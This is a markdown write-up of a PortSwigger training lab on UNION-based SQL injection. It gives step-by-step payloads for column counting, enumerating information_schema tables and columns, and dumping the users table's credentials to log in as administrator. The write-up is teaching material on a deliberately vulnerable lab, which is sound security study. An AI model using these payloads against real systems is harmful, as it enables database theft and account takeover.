








# 🎯 SQL Injection: Retrieving Data From Other Tables (UNION-Based SQLi)

**Write-Up by Aditya Bhatt | UNION-Based SQLi | Table Enumeration | BurpSuite**

This PortSwigger lab contains a classic **UNION-based SQL injection** inside the *product category filter*, allowing us to enumerate tables, extract columns, dump usernames and passwords, and finally log in as the administrator.

---

# 🧪 TL;DR

* Column count = **2**
* Both columns accept **text**
* Target table = **users**
* Columns = **username**, **password**
* Dump creds → login as `administrator` → lab solved

---

# 🌐 Brief Intro

To perform UNION SQL injection, you must first ensure:

1. Column count matches
2. Data types match
3. Table and column names exist

This lab demonstrates all three phases: **column enumeration → table discovery → column extraction → credential theft**.

---

# 🧬 Step-By-Step Proof-of-Concept

Below are the exact actions performed, each mapped to a screenshot stored in the same folder **SQLi__PoC**.

---

## **1. Open the Lab and Select a Category (e.g., Gifts)**

Captured the request in Burp to identify the injectable parameter.

➤ *Why?*
We need a clean baseline request for injecting into the `category` parameter.

---

## **2. Check Column Count Using NULL Payload**

Payload:

+UNION+SELECT+NULL,NULL--

The response shows:

Gifts' UNION SELECT NULL,NULL--

Meaning the backend query has **exactly 2 columns**.

➤ *Why?*
If the UNION renders successfully, the column count matches. Here, 2 columns = correct.

---

## **3. Check Data Types Accepted by Both Columns**

Payload:

+UNION+SELECT+'a','b'--

The page renders perfectly.

➤ *Why?*
Both columns accept **string/text**, allowing us to inject usernames/passwords safely.

---

## **4. Enumerate Table Names From information_schema.tables**

Payload:

' UNION SELECT table_name, NULL FROM information_schema.tables--

We receive a massive list of tables.

Among these, **users** stands out as the only relevant non-system table.

➤ *Why?*
The goal is retrieving credentials. The only meaningful table for authentication is **users**.

---

## **5. Extract Column Names From users**

Payload:

'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users'--

This gives us:

* email
* password
* username

➤ *Why?*
We now know the two columns we need for the final dump: **username**, **password**.

---

## **6. Dump Usernames & Passwords From users Table**

Payload:

'+UNION+SELECT+username,+password+FROM+users--

Response shows:

administrator – fac5uow76djah23ciyho
carlos – edexxhcvgv52tv9wretc
wiener – 2i6gxhulbgj02n5cc2k5

➤ *Why?*
The lab explicitly wants us to extract creds → login as administrator.

---

## **7. Log In as administrator**

Use:

username: administrator
password: fac5uow76djah23ciyho

➤ *Why?*
Logging in with these credentials finalizes the exploit.

---

## **8. Lab Solved 🎉**

Visiting My Account after login confirms the challenge is completed.

---

# 🧠 Key Takeaways

* Correct column count & type matching are essential for UNION SQLi.
* information_schema is powerful for table/column enumeration.
* Always validate the table name before extracting sensitive data.
* UNION-based SQLi is extremely effective in response-based applications.

---

# 👋 Final Thoughts

This lab ties together key UNION SQLi concepts: enumeration, extraction, and account takeover. A perfect warm-up before exploiting more advanced cases like blind SQLi or type-mismatch unions.

Stay sharp & stay offensive.
— **Aditya Bhatt** 🔥

---
